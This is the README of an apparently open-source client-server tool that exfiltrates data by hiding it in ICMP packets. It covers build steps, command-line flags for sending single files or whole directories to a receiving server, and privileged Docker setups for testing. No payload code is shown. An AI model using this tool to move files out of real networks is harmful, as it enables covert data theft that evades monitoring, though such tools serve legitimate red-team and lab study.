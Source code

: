 # 📋 ICMP Extraction
The ICMP-EXtraction project is a client-server application designed for data exfiltration via the ICMP protocol. The client sends data in the form of ICMP requests, while the server receives them and stores them in a folder.

# ⚙️ Features
- Sending data via client
- Server receives and processes data
- Management of multiple clients

# 🚀 Installation

### Prerequisites
     - sudo permissions required (for sending and receiving ICMP packets)
     - GCC version >= 13.2.0.7
     - Cmake
     - Valgrind (for memory leak checks)
     - Criterion (for tests)

### Setting up
```
$ git clone https://github.com/NearXa/icmp
$ cd icmp
$ make
```
# 📑 Usage
```
ICMP-EX: ICMP-Based data exfiltration
Usage: ./src/icmp.o [-c <server IP> || -s] [-f <file path> || -d <directory path>]
-s, --server
        Server mode (default value) : Receive Data
        [Incompatible with -c, --client]
-c, --client <server IP> (default value)
        Client mode: Send Data
        [Incompatible with -s, --server]
-f, --file <file path>
        Client Only: specified data file to transfer
        [Incompatible with -d, --directory]
-d, --directory <directory path>
        Client Only: specified directory, each file in the specified directory will be extracted (not recursivly)
        [Incompatible with -f, --file]
```


# 🐳 Docker
- GCC docker image is needed
```
docker pull gcc
```
- To use the program in a simulated network in Docker containers, you can execute the following commands:
    ### Server
    Server-mode containers can be created simply with
    ```
    make container
    ```
    or manually in the same folder as the Dockerfile with
    ```
    sudo docker build --build-arg ARGS="-s" --tag icmp-server .
    sudo docker run -it --privileged --init --rm --name icmp-server icmp-server
    ```
    (privileged mode is required to disable system response icmp packages)

    ### Client
    Do this manually in the same folder as the Dockerfile, modifying the arguments after "ARGS=".
    ```
    sudo docker build --build-arg ARGS="-c <serverip> -f <file>" --tag icmp-client .
    sudo docker run -it --privileged --init --rm --name icmp-client icmp-client
    ```
    (privileged mode is required to disable system response icmp packages)
